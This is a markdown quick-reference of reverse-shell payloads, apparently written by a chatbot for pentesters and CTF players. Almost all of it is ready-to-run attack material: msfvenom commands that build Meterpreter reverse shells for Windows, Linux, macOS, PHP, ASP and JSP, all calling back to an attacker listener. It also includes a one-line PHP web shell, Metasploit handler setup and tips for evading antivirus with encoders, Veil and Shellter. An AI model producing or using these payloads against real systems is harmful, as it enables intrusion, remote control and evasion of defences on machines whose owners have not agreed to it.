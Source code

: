 ## 📄 reverse_shell_payloads.md

## 📌 Purpose:
To help red teamers, pentesters, and CTF participants quickly create and launch reverse shells for Windows, Linux, macOS, and web servers, using Metasploit payloads and msfvenom.

### 📘 Sample Content of reverse_shell_payloads.md:

# 🎯 Reverse Shell Payloads Reference

This guide provides tested Metasploit reverse shell payloads for common platforms and how to generate them using `msfvenom`.

---

## 🪟 Windows Reverse Shell

Generate an `.exe` payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

```bash
Alternative encoders for AV evasion:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -f exe -o shell-obf.exe
```

## 🐧 Linux Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o shell.elf
```

## 🍎 macOS Reverse Shell
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho -o shell.macho
```

## 🌐 Web Payloads
### PHP
```bash
<?php system($_GET["cmd"]); ?>
```

### Reverse shell:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```

### ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f asp > shell.asp
```

### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.jsp
```

---

## 🔌Handler Setup in Metasploit
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

## 🛡️ Evasion Tips
```bash
    Use -e encoder options like x86/shikata_ga_nai

    Output to .bat, .vbs, .ps1 and obfuscate
```

```bash
    Use tools like:

        Veil

        Shellter

        pyminifier for Python payloads
```



---

## 💡 Notes
```bash
    Always test payloads in a lab environment

    Use VPN/VLAN to isolate C2

    Ensure firewall/AV doesn't block your listener
```

---

## ✅ For full exploitation walkthroughs, check: examples/ms17-010_exploit.md

---



---

### 💡 Why You Need This File

- Saves time during real engagements or CTFs
- Avoids Googling the same payloads repeatedly
- Helps junior pentesters learn correct syntax
- Easily integrated into your internal wiki or printed as a quick reference

---



Let me know and I’ll generate an extended version.

